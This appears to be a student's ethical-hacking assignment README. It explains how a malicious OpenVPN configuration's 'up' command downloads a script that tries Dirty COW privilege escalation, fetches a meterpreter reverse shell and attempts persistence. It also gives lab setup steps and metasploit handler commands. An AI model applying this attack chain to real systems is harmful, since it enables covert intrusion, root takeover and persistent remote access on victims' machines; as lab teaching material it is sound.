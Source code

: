 # Ethical Hacking Assignment 1

This is a demo of using a malicious openvpn configuration to gain access to a linux system.

In Openvpn configuration files, in the up command, arbitrary code can be run. This is a 'feature' of the software that I will be using maliciously.

When the user runs the program, it opens up an OpenVPN connection to the server. The server has a static IP of 10.8.0.1. The up command downloads the script `script.sh` from this github repository.

## The Script

The script checks if it is running as root. If it isn't, It'll check the linux kernel version. If it is within the range for a working dirtycow exploit, it will download, compile and run the exploit to gain root.

If it is not able to attain root, it will continue on with the program.

It checks whether the `shell.elf` executable already exists in the system. If not, it downloads the meterpreter reverse shell executable `shell.elf` from this repo.

It attempts to persist this shell access through init scripts (WIP)

## Issues faced

For some weird reason, I couldn't access the STDIN of the root shell created by the dirtycow exploit. Thus, privilege escalation has to be done manually from the metasploit shell. However, the dirtycow exploit binary should be in the TMP folder of the system, which can be used to elevate the meterpreter session to root

## Setup

1. Download Kali Linux and set it up as a VM.
2. Follow this (guide)[https://www.digitalocean.com/community/tutorials/how-to-set-up-an-openvpn-server-on-ubuntu-18-04] to install OpenVPN and get a basic setup running
3. From the VM configuration, create a new private network, (EH Demo). Allow it access to the internet
4. Give the server a memorable static IP.
5. Create a new (Ubuntu 14.04)[http://old-releases.ubuntu.com/releases/14.04.0/] VM. The one I used was (this)[http://old-releases.ubuntu.com/releases/14.04.0/ubuntu-14.04-desktop-amd64.iso]
6. DO NOT UPDATE THE VM
7. In the VM, install openvpn. 
8. Copy over the generated client OpenVPN configuration from `Step 2` into the VM.
9. Rename the file from `client.ovpn` to `client.conf`
10. Move file to openvpn directory `sudo mv client.conf /etc/openvpn/`
10. Start the OpenVPN service with `sudo /etc/init.d/openvpn start`
11. The exploit should start up automatically
12. On the Kali VM, start up metasploit.
13. `use exploit/multi/handler`
14. `set payload linux/x86/meterpreter/reverse_tcp`
14. `set LHOST 10.8.0.1` This is the default Server IP set by OpenVPN
15. `exploit` Now you should have a reverse shell into the victim's PC.
16. To obtain root, cd into tmp directory and run the dirtycow executable. You should now be elevated into root privileges
17. To ensure that the system is stable after root is gained, `echo 0 > /proc/sys/vm/dirty_writeback_centisecs`
